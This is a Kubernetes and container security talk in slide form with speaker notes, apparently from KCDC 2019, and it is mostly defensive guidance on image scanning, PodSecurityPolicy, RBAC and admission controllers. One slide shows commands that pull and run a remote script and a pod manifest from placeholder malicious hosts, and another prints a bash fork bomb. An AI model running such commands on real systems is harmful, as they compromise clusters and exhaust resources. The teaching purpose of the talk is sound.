# [fit] What vulnerabilities? 
## [fit] *Live hacking of containers and orchestrators*

---

# [fit] Take photos

## [fit] *#kcdc2019*

---

* *About me*
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
A couple of minutes why I'm giving this talk.

---

* About me
* *Why care about security*
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
The moment security clicked for me.
Hope to share this today.

---

* About me
* Why care about security
* *Show me the vulnerability*
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
The most common way of exploiting any system externally.

---

* About me
* Why care about security
* Show me the vulnerability
* *Containers, Containers, Containers*
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
What can happen in our containers.
How we can build them securely.

---

* About me
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* *Containers running containers?!?*
* Orchestrators are cool, yeah
* Going forward

^
Looking into how containers are managed.
What can kubernetes do to help us.

---

* About me
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* *Orchestrators are cool, yeah*
* Going forward

^
Look into the management of Kubernetes.

---

* About me
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* *Going forward*

^
Recap and tips to take away.

---

# 🥳

---


## [fit]*Lewis Denham-Parry*
### [fit] @denhamparry

## [fit] *Jetstack: Solutions Engineer*
### [fit] @jetstackhq

## [fit] *Cloud Native Wales: Co-Founder*
### [fit] @cloudnativewal

---


## [fit] Lewis Denham-Parry
### [fit] *@denhamparry*

## [fit] Jetstack: Solutions Engineer
### [fit] *@jetstackhq*

## [fit] Cloud Native Wales: Co-Founder
### [fit] *@cloudnativewal*

---


---

# [fit] *Mental* Health

---


# [fit] 2017

---

# [fit] Community

---



---

# [fit] *Thank you*

## Jeff Strauss
### *@jeffreystrauss*
## Jon Mills
### *@jonathanfmills*

---

# [fit] Climate *Change*

---

# [fit] Who's *here*?

---

# [fit] *Not* a security expert

---

# [fit] Inspiration

## [fit] *https://youtu.be/iWkiQk8Kdk8*

^
I'm not a security person.
Met a chap called Andy at Warpigs.
I was drunk, he was making slides in bash.
I looked at one of his talks.

---



---

# [fit] *Thank you*

## Andrew Martin
### *@sublimino*
## Ben Hall
### *@ben_hall*

---

# [fit] Tesla

---


---

# [fit] kubernetes *dashboard*

---



---

# 2/20/2018

^
WTF is this date?

---

# 20/2/2018

---

# [fit] 2018-02-20T10:44:31+00:00

^
Nice story Lewis.
This is over a year ago.

---

# [fit] Pop *quiz*

^
Who thinks that this is still an issue?

---

# [fit] https://www.shodan.io/search?query=*KubernetesDashboard*

^
Go to browser

---



---

# [fit] *First* reaction

^
This is how I felt about this.

---



---

# 😯

^
So how do we feel about this.

---

# [fit] Don't use
# [fit] *kubernetes*

^
Thank you

---

# [fit] Goodnight

# *✌*

^
That is an option.
But is there a better option.

---

# [fit] Lets get *started*

---

# [fit] Demo *1*

## Lets *own* a website

---


---

# [fit] Lets *review*

^ What just happened

---

# [fit] Vulnerabilities

---

## Has anyone *knowingly* created a *vulnerability*?

^
Hands up

---

# [fit] OWASP

---



---

# [fit] What is a *vulnerability*?

^
Flaw in code that an attacker can exploit.
Undesirable consequences.

---


# Example

## Heartbleed

^
1/2
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL library.
allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software.

---


# Example

## Heartbleed

^
2/2
This compromises the secret keys used to identify the service providers and to encrypt the traffic
attackers to eavesdrop on communications,
steal data directly from the services
users and to impersonate services and user

---

# [fit] Demo *2*

## [fit] *Jump* into the *box*

---


---


# [fit] How can we *prevent* this?

---

# [fit] Image scanning

^
Break this down into what we can scan in containers.

---

# [fit] Image scanning

## [fit] *Packages and files*

^
This is your code base.
If this is a website, this could be npm.
A service might be nuget packages.
Monolith could be everything.

---

# [fit] Image scanning

## [fit] *Static tokens and passwords*

^
I'll put that into a config file tomorrow.
Check it in, shit.

---

# [fit] Image scanning

## [fit] *Third party images*

^
Can we trust these images.
Nope.
Scan these against known bad images.

---

# [fit] Tools

# [fit] *Clair (CoreOS)*
# [fit] Anchore-Engine (Anchore)

---

# *Microscanner* (Aqua Security)

```Dockerfile
FROM debian:jessie-slim
RUN apt-get update && apt-get -y install ca-certificates
ADD https://get.aquasec.com/microscanner
RUN chmod +x microscanner
ARG token
RUN /microscanner ${token} && rm /microscanner
```

---

# [fit] TIP: *Scheduled builds*

^
This should be part of a CI/CD process.
If you're using microservices.
Some code isn't checked in often.
Scheduled builds can check these images.
E.g. Every 24 hours.

---

# [fit] Focus on *CI/CD*

^
Run this during you build process.

---

# [fit] *Fail* if its not secure

^
This sounds harsh but it isn't.
If you're working on a project, check it in.
You get the quick feedback loop.
Think of onboarding new team members.

---

# [fit] Don't *ssh* to patch

^
In Docker and Kubernetes.
We exec instead of ssh.
This is an anti-pattern of microservices.
Can cause drift.
What happens if someone else gets in?

---

# [fit] Reduce the *attack vector*

^
Don't leave things in your images.
We've seen what we can do with bash.
Some people just have binaries running in their images.

---

# *Private* container registries

^
Public is great.
But anyone can add to it.
Have a registry that only a verified process can push to.
Hosted cloud versions.
Also other offerings.

---

# How do we *define* our images?

---

# [fit] denhamparry/myimage*:latest*

^
This is bad as we don't know what we're running

---

# [fit] denhamparry/myimage*:0.0.1*

^
Better than latest because we're specifying a version.

---

# [fit] denhamparry/myimage*@sha256:45lnf43mkde...*

^
Maybe overkill but we specifically know the image being run

---

# [fit] *Always* 

# [fit] pull latest

^
Caching images can be great for local dev.
If you're on a train for example.
Pulling down images isn't great on mobile.
In production this is different.

---

# [fit] *Image trust* and supply chain

^
How do we know what we're running is what we built?

---

# [fit] Nothing *lives* forever

---


---

# [fit] *Case study*

## [fit] tylenol cyanide deaths

---


---

# [fit] Tools

## *Notary (The TUF Project)*
## Grafeas

---

# [fit] Demo *3*

## *Escape* the container

---


---

# [fit] Running *containers*

# [fit] on *Kubernetes*

---


---

# [fit] Where do we 
# [fit] *learn*

^
Whats the next step for us to learn this?

---





---





---

# [fit] What could *possibly* go wrong?

---

# Exfiltration of *sensitive data*

---

# [fit] *Elevate privileges*
# [fit] inside Kubernetes to 
# [fit] access all workloads

---

# [fit] Potentially *Gain root access*
# [fit] to the Kubernetes worker nodes

---

# [fit] Perform *lateral* 
# [fit] *network movement* 
# [fit] outside the cluster

---

# [fit] Run a *compromised* Pod

---

# Examples

```bash
$ kubectl create -f http://Insert_Malicious_URL_here/FakeApp.yaml
$ curl SRI-Tools.com/fakeapp.sh | bash
$ Kubectl create –f http://SRI-Tools.com/k8s/FakeApp.yaml
```

---

# [fit] :(){ :|:& };:

^
13 characters, 1 fork bomb.
Spins up threads.
Unmanaged can take a load of resoruce.
Resource that can be used elsewhere.

---

# [fit] *Secure* by default yeah?

---


---

# [fit] *Feature* driven

---

# [fit] Security *follows*

---

# [fit] Best *Practice*

---

# Least *Privileged*

^
Focus on this with task at hand.

---

# Reduce *host mounts*

^
More dependencies onto a node can cause more issues.

---

# [fit] *Limit* communications

^
A cluster has its own network.
If everything can connect to eachother, bad things can happen.

---

# Don't use *root*

^
A few exceptions.
Running on the nodes kernel.
Running on privaledged ports on the node.
K8S services.
Installing things onto the container.
Decent CI/CD should prevent this from happening.

---

# [fit] *How to* run as 
# [fit] a *non-root* user?

^
So how do we avoid this?

---

# [fit] *User* command 
# [fit] in *Dockerfile*

^
Can specify this within the dockerfile when we build it.

---

# [fit] RBAC

^
Role-based access control.
Since 1.8, previously abac.

---

# Master *and* Workers

---

# Control *Plane*

---

# API

---

# [fit] Layered security approach

---


---

# [fit] *Admission* controller

^
This happens after authentication and authorisation.
Will discuss that after.
Before committing this into etcd.
There are lots of admission controllers to choose from.
Here's a selection.

---

# [fit] Always*Pull*Images

^
Modifies pod pull policy to always overwriting default.
If other pods run on the same node, they use the cached image.
This avoids registry checks.

---

# [fit] Deny*Escalating*Exec

^
Prevent exec and attach command to escalated pods.
Stop getting into privileged containers.

---

# [fit] Pod*Security*Policy

^
This determines how a pod can be run.
Determines if it should be run based on policies.

---

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted
  annotations:
    seccomp.security.alpha.kubernetes.io/allowedProfileNames: 'docker/default,runtime/default'
    apparmor.security.beta.kubernetes.io/allowedProfileNames: 'runtime/default'
    seccomp.security.alpha.kubernetes.io/defaultProfileName:  'runtime/default'
    apparmor.security.beta.kubernetes.io/defaultProfileName:  'runtime/default'
spec:
  privileged: false
  allowPrivilegeEscalation: false
  requiredDropCapabilities:
    - ALL
  volumes:
    - 'configMap'
    - 'emptyDir'
    - 'projected'
    - 'secret'
    - 'downwardAPI'
    - 'persistentVolumeClaim'
  hostNetwork: false
  hostIPC: false
  hostPID: false
  runAsUser:
    rule: 'MustRunAsNonRoot'
  seLinux:
    rule: 'RunAsAny'
  supplementalGroups:
    rule: 'MustRunAs'
    ranges:
      - min: 1
        max: 65535
  fsGroup:
    rule: 'MustRunAs'
    ranges:
      - min: 1
        max: 65535
  readOnlyRootFilesystem: false
```

^
This is example yaml.

---

```yaml
privileged: false
```

^
privileged
Required to prevent escalations to root.

---

```yaml
allowPrivilegeEscalation: false
```

^
allowprivaledgeescalations
This is redundant with non-root + disallow privilege escalation,
but we can provide it for defense in depth.

---

```yaml
  runAsUser:
    rule: 'MustRunAsNonRoot'
```

^
runAsUser
Require the container to run without root privileges.

---

```yaml
  supplementalGroups:
    rule: 'MustRunAs'
    ranges:
      - min: 1
        max: 65535
  fsGroup:
    rule: 'MustRunAs'
    ranges:
      - min: 1
        max: 65535
```

^
supplementalGroups
Forbid adding the root group.

---

# [fit] Limit*Range*
# [fit] *Resource*Quota

^
Observes incoming requests.
Ensures it doesn't violate any of the constraints.
Helps prevent ddos attacks.

---

# ResourceQuota

| Name | Description |
| --- | --- |
| cpu | Total requested cpu usage |
| memory | Total requested memory usage |
| pods | Total number of active pods where phase is pending or active.|
| services | Total number of services |
| replicationcontrollers | Total number of replication controllers |
| resourcequotas | Total number of resource quotas |
| secrets | Total number of secrets |
| persistentvolumeclaims | Total number of persistent volume claims |

^
Example of what we can limit with a resource quota.

---

# [fit]Node*Restrictions*

^
Limits the restrictions on the kubelet.

---

# [fit] Demo *4*

## Can we see whats *running*

---


---

# [fit] Security *Boundaries*

^
The structure of Kubernetes

---

# [fit] Cluster

^
All the nodes and control plane.

---

# [fit] Node

^
VM or bare metal
Only processes what is scheduled.

---

# [fit] Namespace

^
A virutal cluster of multiple resources.
Basic unit for authorization.
Can restrict resource depletion, prevent denial of service attacks.

---

# [fit] Pod

^
Group of containers that run on the same node.

---

# [fit] *Network*Policies

^
Use these to restrict what can talk to eachother in the network.

---

# [fit] Secrets

^
Base64 encoded, not encrypted.
Look to other providers.
Hashicorp Vault, Sealed secrets.

---

# [fit] Passing *secrets* to containers

^
Best practice
Pass as enviroment variables.
Mount them.

---

# [fit] Tools

---

# [fit] Aqua *Security*
# [fit] https://github.com/aquasecurity
## *Kube-Hunter*
## Kube-Bench

---

# [fit] Demo *5*

## Hail *mary*

---


---


# [fit] Going *Forward*

---

# [fit] Runtimes

^
Other runtimes available.
Not just docker.
Katacontainers.
gVisor.

---

# [fit] Service *Meshes*

^
Can offer mutual authenticated TLS connections.
Can setup service mesh network policies.

---

# Release 
# [fit] often */* fast

---

# [fit] kubesec.*io*

---

# *Chaos* Engineering

^
Recycling pods and nodes.

---

# [fit] Security *updates*

^
Keep patching your systems.

---

# [fit] Thank You(*s*)

* Andrew Martin *@sublimino*
* Ben Hall *@ben_hall*
* Benjy Portnoy *@AquaSecTeam*
* Liz Rice *@lizrice*

---

# [fit] Thank You(*s*)

* Jess Frazelle *@jessfraz*
* Ian Coldwater *@IanColdwater*
* Aled James *@a\_ll\_james*
* Nial Merrigan *@nmerrigan*

---

# [fit] Drop the ladder

## [fit] *https://github.com/denhamparry/talks*

---

# 🥳

---

